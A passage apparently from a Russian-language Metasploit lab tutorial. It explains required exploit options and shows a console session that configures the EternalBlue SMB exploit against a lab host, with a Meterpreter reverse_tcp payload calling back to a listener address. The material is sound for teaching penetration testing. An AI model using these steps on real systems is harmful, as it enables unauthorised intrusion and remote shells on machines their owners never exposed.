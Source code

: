 Как вы можете видеть на снимке экрана выше, некоторые из этих параметров требуют значения для работы эксплойта. 
Некоторые требуемые значения параметров будут предварительно заполнены, убедитесь, что вы проверили, должны ли они 
оставаться такими же для вашей цели. Например, веб-эксплойт может иметь значение RPORT (удаленный порт: порт на 
целевой системе, к которому Metasploit попытается подключиться и запустить эксплойт), предварительно установленное 
на 80, но ваше целевое веб-приложение может использовать порт 8080.

В этом примере мы установим параметр RHOSTS на IP-адрес нашей целевой системы с помощью команды set.

А
Meterpreter
командная строка
```commandline
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.165.39
rhosts => 10.10.165.39
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.165.39     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.44.70      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```
